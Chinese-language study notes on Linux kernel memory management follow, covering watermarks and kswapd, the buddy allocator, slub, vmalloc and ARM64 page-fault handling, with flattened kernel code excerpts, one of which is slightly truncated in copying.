如果空闲页数目小于< low && > min值，kswapd线程将被唤醒，并开始释放回收页面
如果空闲页面的值> high值，则该zone的状态很完美, kswapd线程将重新休眠
通过init_per_zone_wmark_min 、 __setup_per_zone_wmarks计算水位
在boost_watermark中计算出watermark_boost再进入balance_pgdat设置boost 当boosted enable后，wakeup_kcompactd进行内存碎片整理，一定程度上会缓解系统内存碎片化问题
if (boosted) { unsigned long flags; for (i = 0 ; i <= highest_zoneidx; i++) { if (!zone_boosts[i]) continue ; zone = pgdat->node_zones + i; spin_lock_irqsave(&zone->lock, flags); zone->watermark_boost -= min(zone->watermark_boost, zone_boosts[i]); spin_unlock_irqrestore(&zone->lock, flags); } wakeup_kcompactd(pgdat, pageblock_order, highest_zoneidx); }
内存管理-Buddy分配算法
空闲内存都会交给内核内存管理系统来进行统一管理和分配，内核中会把内存按照页来组织分配，随着进程的对内存的申请和释放，系统的内存会不断的区域碎片化，到最后会发现，明明系统还有很多空闲内存，却无法分配出一块连续的内存，这对于系统来说并不是好事，而伙伴系统算法就可以缓解这种碎片化
把所有的空闲页框分组为11个块链表，每个块链表分别包含大小为1，2，4，8，16，32，64，128，256，512和1024个连续页框的页框块，最大可以申请1024个连续页框，对应4MB大小的连续内存，每个页框块的第一个页框的物理地址是该块大小的整数倍

static struct page *get_page_from_freelist (gfp_t gfp_mask, unsigned int order, int alloc_flags, const struct alloc_context *ac) { retry: for_next_zone_zonelist_nodemask(zone, z, ac->highest_zoneidx, ac->nodemask) { check_alloc_wmark: mark = wmark_pages(zone, alloc_flags & ALLOC_WMARK_MASK); if (!zone_watermark_fast(zone, order, mark, ac->highest_zoneidx, alloc_flags, gfp_mask)) { ... ret = node_reclaim(zone->zone_pgdat, gfp_mask, order); switch (ret) { case NODE_RECLAIM_NOSCAN: continue ; case NODE_RECLAIM_FULL: continue ; default : if (zone_watermark_ok(zone, order, mark, ac->highest_zoneidx, alloc_flags)) goto try_this_zone; continue ; } } try_this_zone: page = rmqueue(zonelist_zone(ac->preferred_zoneref), zone, order, gfp_mask, alloc_flags, ac->migratetype); ... } ... return NULL ; }
首先遍历当前zone，按照HIGHMEM->NORMAL的方向进行遍历，判断当前zone是否能够进行内存分配的条件是首先判断free memory是否满足low water mark水位值，如果不满足则进行一次快速的内存回收操作，然后再次检测是否满足low water mark，如果还是不能满足，相同步骤遍历下一个zone，满足的话进入正常的分配情况，即rmqueue函数，这也是伙伴系统的核心
static inline struct page *rmqueue (struct zone *preferred_zone, struct zone *zone, unsigned int order, gfp_t gfp_flags, unsigned int alloc_flags, int migratetype) { struct page *page ; if (likely(pcp_allowed_order(order))) { page = rmqueue_pcplist(preferred_zone, zone, order, migratetype, alloc_flags); if (likely(page)) goto out; } page = rmqueue_buddy(preferred_zone, zone, order, alloc_flags, migratetype); out: if ((alloc_flags & ALLOC_KSWAPD) && unlikely(test_bit(ZONE_BOOSTED_WATERMARK, &zone->flags))) { clear_bit(ZONE_BOOSTED_WATERMARK, &zone->flags); wakeup_kswapd(zone, 0 , 0 , zone_idx(zone)); } VM_BUG_ON_PAGE(page && bad_range(zone, page), page); return page; } static __always_inlinestruct page *rmqueue_buddy (struct zone *preferred_zone, struct zone *zone, unsigned int order, unsigned int alloc_flags, int migratetype) { struct page *page ; unsigned long flags; do { page = NULL ; if (unlikely(alloc_flags & ALLOC_TRYLOCK)) { if (!spin_trylock_irqsave(&zone->lock, flags)) return NULL ; } else { spin_lock_irqsave(&zone->lock, flags); } if (alloc_flags & ALLOC_HIGHATOMIC) page = __rmqueue_smallest(zone, order, MIGRATE_HIGHATOMIC); if (!page) { enum rmqueue_mode rmqm = page = __rmqueue(zone, order, migratetype, alloc_flags, &rmqm); if (!page && (alloc_flags & (ALLOC_OOM|ALLOC_NON_BLOCK))) page = __rmqueue_smallest(zone, order, MIGRATE_HIGHATOMIC); if (!page) { spin_unlock_irqrestore(&zone->lock, flags); return NULL ; } } spin_unlock_irqrestore(&zone->lock, flags); } while (check_new_pages(page, order)); __count_zid_vm_events(PGALLOC, page_zonenum(page), 1 << order); zone_statistics(preferred_zone, zone, 1 ); return page; }
内存管理-碎片化整理
主要应用了内核的页面迁移机制，是一种将可移动页面进行迁移后腾出连续物理内存的方法


内存管理-slub分配器
伙伴系统是以页为单位分配内存，但是现实中很多时候却以字节为单位，不然申请10Bytes内存还要给1页的话就太浪费了，slab分配器就是为小内存分配而生的，slub分配器分配内存以Byte为单位，基于伙伴系统分配的大内存进一步细分成小内存分配
slub把内存分组管理，每个组分别包含8,16,32,...,2048个字节，在4K页大小的默认情况下，另外还有两个特殊的组，分别是96B和192B，之所以这样分配是因为如果申请2^12B大小的内存，就可以使用伙伴系统提供的接口直接申请一个完整的页面，加上整页分配共12组，
可以把一个kmem_cache结构体看做是一个特定大小内存的零售商，整个slub系统中共有12个这样的零售商，每个零售商只零售特定大小的内存，零售商把这些整页的内存分成许多小内存，然后分别零售出去，一个slab可能包含多个连续的内存页
每个零售商kmem_cache有两个部门，一个是仓库：kmem_cache_node，一个“营业厅kmem_cache_cpu，营业厅里只保留一个slub，只有在营业厅kmem_cache_cpu中没有空闲内存的情况下才会从仓库中换出其他的slub
整个slub系统的框图

物理页按照对象object大小组织成单向链表，对象大小由objsize指定的。例如16字节的对象大小，每个object就是16字节，每个object包含指向下一个object的指针，该指针的位置是每个object的起始地址+offset

slub系统刚刚创建出来，这是第一次申请。 此时slub系统刚建立起来，营业厅kmem_cache_cpu和仓库kmem_cache_node中没有任何可用的slab可以使用因此只能向伙伴系统申请空闲的内存页，并把这些页面分成很多个object，取出其中的一个object标志为已被占用，并返回给用户，其余的object标志为空闲并放在kmem_cache_cpu中保存。kmem_cache_cpu的freelist变量中保存着下一个空闲object的地址，表示申请一个新的slab，并把第一个空闲的object返回给用户，freelist指向下一个空闲的object

slub的kmem_cache_cpu中保存的slab上有空闲的object可以使用。kmem_cache_cpu中保存的一个空闲object返回给用户，并把freelist指向下一个空闲的object

slub已经连续申请了很多页，现在kmem_cache_cpu中已经没有空闲的object了，但kmem_cache_node的partial中有空闲的object 。所以从kmem_cache_node的partial变量中获取有空闲object的slab，并把一个空闲的object返回给用户


kmem_cache_cpu中已经都被占用的slab放到仓库中，kmem_cache_node中有两个双链表，partial和full，分别盛放不满的slab，slab中有空闲的object和全满的slab，slab中没有空闲的object。然后从partial中挑出一个不满的slab放到kmem_cache_cpu中

slub已经连续申请了很多页，现在kmem_cache_cpu中保存的物理页上已经没有空闲的object可以使用了，而此时kmem_cache_node中没有空闲的页面了，只能向内存管理器(伙伴算法)申请slab。并把该slab初始化，返回第一个空闲的object


向slub系统释放内存块object时，如果kmem_cache_cpu中缓存的slab就是该object所在的slab，则把该object放在空闲链表中即可，如果kmem_cache_cpu中缓存的slab不是该object所在的slab，然后把该object释放到该object所在的slab中。在释放object的时候可以分为一下三种情况
object在释放之前slab是full状态的时候（slab中的object都是被占用的），释放该object后，这是该slab就是半满（partial）的状态了，这时需要把该slab添加到kmem_cache_node中的partial链表中


slab是partial状态时（slab中既有object被占用，又有空闲的），直接把该object加入到该slab的空闲队列中即可


该object在释放后，slab中的object全部是空闲的，还需要把该slab释放掉



内存管理-vmalloc
随着碎片化的积累，连续物理内存的分配就会变得困难，对于那些非DMA访问（Direct Memory Access，直接存储器访问），不一定非要连续物理内存的话完全可以像malloc那样，将不连续的物理内存页框映射到连续的虚拟地址空间中
主要分以下三步：
从VMALLOC_START到VMALLOC_END查找空闲的虚拟地址空间(hole)
根据分配的size,调用alloc_page依次分配单个页面
把分配的单个页面，映射到第一步中找到的连续的虚拟地址。把分配的单个页面，映射到第一步中找到的连续的虚拟地址

内存管理-缺页处理
当进程访问这些还没建立映射关系的虚拟地址时，处理器会自动触发缺页异常
ARM64把异常分为同步异常和异步异常，通常异步异常指的是中断，同步异常指的是异常
当处理器有异常发生时，处理器会先跳转到ARM64的异常向量表中，选择如何处理异常
当触发异常的虚拟地址属于某个vma，并且拥有触发页错误异常的权限时，会调用到__handle_mm_fault函数来建立vma和物理地址的映射
查找页全局目录，获取地址对应的表项
查找页四级目录表项，没有则创建
查找页上级目录表项，没有则创建
查找页中级目录表项，没有则创建
handle_pte_fault处理pte页表

do_anonymous_page
匿名页缺页异常，对于匿名映射，映射完成之后，只是获得了一块虚拟内存，并没有分配物理内存，当第一次访问的时候：
如果是读访问，会将虚拟页映射到０页，以减少不必要的内存分配
如果是写访问，用alloc_zeroed_user_highpage_movable分配新的物理页，并用０填充，然后映射到虚拟页上去
如果是先读后写访问，则会发生两次缺页异常：第一次是匿名页缺页异常的读的处理（虚拟页到0页的映射），第二次是写时复制缺页异常处理。
从上面的总结我们知道，第一次访问匿名页时有三种情况，其中第一种和第三种情况都会涉及到内核共享0页
do_fault

do_swap_page
pte对应的内容不为0(页表项存在)，但是pte所对应的page不在内存中时，表示此时pte的内容所对应的页面在swap空间中，缺页异常时会通过do_swap_page()函数来分配页面。
do_swap_page发生在swap in的时候，即查找磁盘上的slot，并将数据读回。
换入的过程如下：
查找swap cache中是否存在所查找的页面，如果存在，则根据swap cache引用的内存页，重新映射并更新页表；如果不存在，则分配新的内存页，并添加到swap cache的引用中，更新内存页内容完成后，更新页表。
换入操作结束后，对应swap area的页引用减1，当减少到0时，代表没有任何进程引用了该页，可以进行回收
do_wp_page
走到这里说明页面在内存中，只是PTE只有读权限，而又要写内存的时候就会触发do_wp_page
do_wp_page函数用于处理写时复制（copy on write），其流程比较简单，主要是分配新的物理页，拷贝原来页的内容到新页，然后修改页表项内容指向新页并修改为可写(vma具备可写属性)